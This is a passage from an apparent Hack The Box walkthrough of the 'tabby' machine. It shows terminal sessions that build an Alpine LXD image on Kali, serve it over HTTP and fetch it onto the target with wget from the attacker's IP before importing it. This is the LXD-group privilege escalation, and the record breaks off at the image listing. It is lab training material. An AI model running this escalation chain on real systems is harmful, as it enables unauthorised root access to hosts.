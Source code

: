 ```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ git clone https://github.com/saghul/lxd-alpine-builder.git

Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Unpacking objects: 100% (27/27), 15.98 KiB | 1.60 MiB/s, done.

┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ cd lxd-alpine-builder

┌──(sid㉿kali)-[~/…/hackthebox/linux-machines/tabby/lxd-alpine-builder]
└─$ sudo ./build-alpine

┌──(sid㉿kali)-[~/…/hackthebox/linux-machines/tabby/lxd-alpine-builder]
└─$ ls
alpine-v3.12-x86_64-20201107_2130.tar.gz  build-alpine  LICENSE  README.md

┌──(sid㉿kali)-[~/…/hackthebox/linux-machines/tabby/lxd-alpine-builder]
└─$ python3 -m http.server 7777
Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...

```
On tabby :

```shell
ash@tabby:~$ wget http://10.10.14.9:7777/alpine-v3.12-x86_64-20201107_2130.tar.gz
Connecting to 10.10.14.9:7777... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3194011 (3.0M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20201107_2130.tar.gz’

alpine-v3.12-x86_64 100%[===================>]   3.05M  2.57MB/s    in 1.2s    

2020-11-07 16:21:28 (2.57 MB/s) - ‘alpine-v3.12-x86_64-20201107_2130.tar.gz’ saved [3194011/3194011]

ash@tabby:~$ lxd init
lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: no
no
Do you want to configure a new storage pool? (yes/no) [default=yes]: no
no
Would you like to connect to a MAAS server? (yes/no) [default=no]: no
no
Would you like to create a new local network bridge? (yes/no) [default=yes]: no
no
Would you like to configure LXD to use an existing bridge or host interface? (yes/no) [default=no]: no
no
Would you like LXD to be available over the network? (yes/no) [default=no]: no
no
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] no
no
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: no
no

ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20201107_2130.tar.gz --alias myimage
lxc image import ./alpine-v3.12-x86_64-20201107_2130.tar.gz --alias myimage
ash@tabby:~$ lxc image list
lxc image list
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
```